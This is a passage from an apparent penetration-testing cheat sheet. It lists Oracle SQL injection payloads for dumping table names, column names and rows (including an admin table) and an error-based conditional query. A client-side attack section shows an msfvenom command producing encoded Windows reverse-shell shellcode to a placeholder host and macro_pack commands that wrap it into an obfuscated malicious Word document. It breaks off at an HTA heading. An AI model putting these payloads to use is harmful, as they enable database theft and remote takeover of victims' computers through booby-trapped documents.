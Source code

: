         - But data may in `SYSTEM` or other existing DB
- Dump Table Names
    - All : `SELECT OWNER,TABLE_NAME FROM ALL_TABLES`
    - Specific DB: `SELECT TABLE_NAME FROM ALL_TABLES WHERE OWNER='{DB_NAME}'`
- Dump Column Names
    - `SELECT COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='{TABLE_NAME}'`
- Select data
    - `SELECT {Col1},{Col2} FROM {Table}`
- Select One line using ROWNUM (Doesn't support limit)
    - eg. `SELECT NULL,COLUMN_NAME,3 FROM (SELECT ROWNUM no, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS WHERE TABLE_NAME='WEB_ADMINS') where no=1 -- ` 
        - no=1 2 3 ...
- DB Version
    - `select version from V$INSTANCE`
    - `select BANNER from v$version`
- Error Based
    - ` SELECT CASE WHEN ({condition}) THEN NULL ELSE to_char(1/0) END FROM dual `
- Current DB
    - `SELECT SYS.DATABASE_NAME FROM dual`

-----

### Client Side Attack

#### **Macro Pack**

* Usage
```
macro_pack.exe {Options}
```
Spawn a shellcode, and synthesis exploit.
Only allow **`.doc`** or **`.docm`**, doesn't support `.docx`.
* Options
  - `-o` Obfuscate bypass
  - `-G {output_file}` Spawn file
  - `-f {shellcode_file}` Shellcode file
* Shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST={IP} LPORT={PORT} -e x86/shikata_ga_nai -f vba -o shell.vba
```
* Example Command
```
macro_pack.exe -f shell.vba -o -G exploit.doc
```
* SOP
```
macro_pack.exe -f {shellcode_file} -o -G {output_word_file}
```
* Download
  - [macro_pack](https://github.com/sevagas/macro_pack)

#### HTA (HTML Application)
